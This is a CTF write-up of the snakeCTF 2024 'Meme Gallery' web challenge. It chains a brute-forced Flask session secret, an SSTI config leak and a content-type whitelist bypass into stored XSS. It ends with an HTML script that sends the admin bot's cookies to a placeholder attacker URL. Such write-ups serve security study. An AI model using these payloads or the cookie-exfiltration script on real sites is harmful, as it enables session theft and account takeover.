




# Meme Gallery [_snakeCTF 2024 Quals_]

**Category**: web

## Description

Share your favourite memes with the admins.

### Hints

- Oh God, my secret rocks!

## Solution

From the source it is clear that the application is a platform to share memes. Moreover:

- Memes are uploaded in a minio object storage
- There is an admin bot with the flag in the cookies

It's possible to register an account and upload some pictures:



When trying to submit the image to the admin, an error occurs: `I'm not interested in this naive memes`. The reason for this error is clearly stated in the code:

```js
@blueprint.route("/list/<meme>/maketheadminlaugh", methods=["GET"])
@token_required
@with_db
def report(db, user, meme):
    bucket = "supermemes"

    found = db.meme_bucket(meme)
    if found is None:
        return {"error": "Nonexistent meme is the new meme"}, 404
    if found != bucket:
        return {"error": "I'm not interested in this naive memes"}, 400
    res = requests.post(
        BOT_ADDRESS,
        data={"url": f"{current_app.config['APP_ADDRESS']}/get/{quote_plus(meme)}"},
    )
    ...
```

The bucket on which the memes are uploaded is defined in the following function:

```js
def bucket_for(user):
    if user.admin:
        return "supermemes"
    else:
        return "memes"
```

```js
@blueprint.route("/upload", methods=["POST"])
@token_required
@with_db
def upload(db, user):
    bucket = bucket_for(user)
    file = request.files["file"]
    ...
    db.add_meme(file.filename, content, file.content_type, user.id, bucket)
    ...
```

To show a meme to the bot (the only interaction possible), admin privileges are required. The only way to gain them is to know the admin credentials:

```js
@property
def admin(self):
    return (
        self._username == current_app.config["ADMIN_USERNAME"]
        and self._password == current_app.config["ADMIN_PASSWORD"]
    )
```

### Getting the admin credentials

In the first few lines of `app.py`, credentials are saved in the app config:

```js
app.config["ADMIN_USERNAME"] = environ.get("ADMIN_USERNAME", "");
app.config["ADMIN_PASSWORD"] = environ.get("ADMIN_PASSWORD", "");
```

This means that leaking the config provides a way to log in as admin an and upload memes to the `supermemes` bucket.
The authentication endpoints are clearly vulnerable to [SSTI](https://portswigger.net/web-security/server-side-template-injection):

```js
@blueprint.route("/user", methods=["GET"])
@token_required
def user_info(user):
    return render_template_string(f"uid={user.id}({{{{name}}}})", name=user.name), 200
```

In this route, the `user.id` is not sanitized and is directly printed in the template string before passing it to the template engine. If the attacker has control over `user.id`, this would be vulnerable to SSTI!

To exploit this vulnerability it is required to understand how the authentication is handled.
The `token_required` decorator is defined as follows:

```js
def token_required(f):
    @wraps(f)
    def decorated(*args, **kwargs):
        ...
            logged_user = json.loads(session.get("user"), cls=UserDecoder)
            db = AppDataStorage(DB_FILE, OS_ADDRESS)
            res = db.find_user(logged_user.name)
            if res is None or res[2] != logged_user.password:
                return (
                    {"error": "Invalid token"},
                    500,
                    {"Set-Cookie": "session=;Max-Age=0;"},
                )
        ....

        return f(logged_user, *args, **kwargs)
    ...
```

The `logged_user` is taken from the `session` and parsed with a custom decoder:

```js
class UserDecoder(json.JSONDecoder):
    def decode(self, encoded):
        parsed = json.loads(encoded)
        id = parsed["id"]
        username = parsed["username"]
        password = parsed["password"]
        if len(encoded) > 85 or len(username) < 5 or len(password) < 32:
            raise json.JSONDecodeError("Unusual behavior detected", "", 0)
        return User(id, username, password)
```

The `session` cookie is [cryptographically signed](https://flask.palletsprojects.com/en/3.0.x/quickstart/#sessions), so in order to change the session object the generation of a valid signature is required. Is the session secret safe?

```js
app.config["SECRET_KEY"] = environ.get("SECRET_KEY", None) or randbytes(4)
```

[Flask-unsign](https://github.com/Paradoxis/Flask-Unsign) is a tool with the objective to bruteforce flask sessions against a wordlist (such that [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)) and forge new valid sessions.
It can be used in this case, since the secret is weak:


A payload for SSTI, such that `{{config}}`, can be signed to leak the app's config.



Notice that the check for `len(encoded) > 85` is present in order to (hopefully) avoid the SSTI to develop into an RCE. The length is enough to contain the `"{{config}}"` payload and white spaces can be removed from the JSON data to save some characters.

### Getting the XSS

With the admin credentials, it is possible to log in and upload memes to the `supermemes` bucket.
Since the flag is in the admin cookies, some kind of XSS can be used to steal it.
From the `report` function shown above, it is clear that the bot visits the `/get/<meme>` endpoint, and returns the object stored in the bucket:

```js
@blueprint.route("/get/<meme>", methods=["GET"])
@token_required
@with_db
def get_object(db, user, meme):
    bucket = bucket_for(user)
    found = db.find_meme(meme, bucket)
    if found is None:
        return {"error": "Meme not found!"}, 404
    o = db.retrieve_meme_data(meme, bucket)

    return Response(o.stream(), o.status, o.headers.items())
```

The uploaded file is clearly the injection point, but the upload route implements some security checks:

```js
ct_whitelist = [("image", "jpeg"), ("image", "png")]
ext_whitelist = [".png", ".jpeg", ".jpg"]
....
@blueprint.route("/upload", methods=["POST"])
@token_required
@with_db
def upload(db, user):
    bucket = bucket_for(user)
    file = request.files["file"]

    if file.filename is None:
        return {"error": "Invalid meme"}, 400

    exts = map(lambda x: file.filename.endswith(x), ext_whitelist)
    if not any(exts):
        return {"error": "Invalid extension"}, 400

    objs = db.bucket_memes(bucket)
    if file.filename in objs:
        return {"error": "Meme exists"}, 400

    content = file.stream.read()
    content_type = mimeparse.parse_mime_type(file.content_type)
    if len(content_type) != 3:
        return {"error": "Invalid Content-Type"}, 400
    cts = map(
        lambda x: x[0] == content_type[0]
        and x[1] == content_type[1]
        and content_type[2] == {},
        ct_whitelist,
    )
    if not any(cts):
        return {"error": "Content-Type not allowed!"}, 400
    db.add_meme(file.filename, content, file.content_type, user.id, bucket)
    ...
```

The file extension and the content type are checked against a whitelist, but the meme is stored with the original content type and not the parsed one.

On the internet an [interesting research](https://github.com/BlackFan/content-type-research/blob/master/XSS.md) on possible content types used for XSS is present.
One of the [Response Content-Type Tricks](https://github.com/BlackFan/content-type-research/blob/master/XSS.md#response-content-type-tricks) can be used to bypass the whitelist.
For example, by using `image/jpeg; ,text/html` as content type, the `mimeparse` library will report `('image', 'jpeg', {})` (since `,text/html` contains no valid parameters because [no `=` sign is present](https://github.com/falconry/python-mimeparse/blob/master/mimeparse/__init__.py#L43)), and the browser will interpret it as `text/html` and render it as a `html` page.
A html page in the content of the file can be used to extract the cookies, for example:

```html
<body>
    <script>
        document.location='<attacker_controlled_url>/' + btoa(document.cookie);
    </script>
</body>
</html>
```

This meme can be sent to the bot and steal the cookies.
